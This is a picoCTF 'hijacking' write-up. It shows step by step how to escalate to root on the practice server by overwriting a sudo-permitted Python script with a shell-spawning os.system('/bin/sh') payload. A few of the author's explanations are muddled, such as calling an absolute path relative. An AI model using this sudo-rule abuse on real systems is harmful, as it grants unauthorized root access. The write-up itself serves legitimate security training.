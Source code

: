 # Challange Info

Name : hijacking

Difficulty : Medium

Category : Binary Exploitation

Link : https://play.picoctf.org/practice/challenge/352?category=6&page=2

`Note : I will suggest look for other writeups as well. As this is not intended way to solve the challange. The intended writeup will help with better understanding of python and it's libraries and how it works.`

Suggested writeup : https://github.com/snwau/picoCTF-2023-Writeup/blob/main/Binary%20Exploitation/hijacking/hijacking.md

# Writeup

The challange provides SSH details.

Logging in via ssh.

```bash
ssh picoctf@saturn.picoctf.net -p 60826
```

Listing all files in home directory.

```bash
ls -al
```

The file which caught my eye was .server.py.

> -rw-r--r-- 1 root    root     375 Feb  7  2024 .server.py

But as it's not writeable if we try to edit the file it will drop to picoctf user from root.

So we check if picoctf is allowed to run commands as sudo.

```bash
sudo -l
```

> User picoctf may run the following commands on challenge:
> 
>    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py

We can run the python file as sudo.

Using vim to edit the file.

```bash
vim .server.py
```

Replacing file contents with following :

```python
import os
os.system("/bin/sh")
```

`Note : We have to use vim as it allows file to drop from root to picoctf and nano is not avalaible on the server`

In order to exit vim.

```bash
wq!
q!
```

This will give error but when we quit vim we'll get the file dropped from root to picoctf user it dosen't matter as we can anyway run the file as root user via sudo.

Running the python script as sudo. 

`Note : That the allowed config uses relative path for .server.py so we also have to do the same or it'll give us error that we are not allowed to execute the file. For python3 it gets the relative path from PATH variable.`

```bash
sudo python3 /home/picoctf/.server.py
```

We get root shell.

Navigating to /root and listing all files.

```bash
cd /root
ls -al
```

> -rw-r--r-- 1 root root   43 Sep 26 19:29 .flag.txt
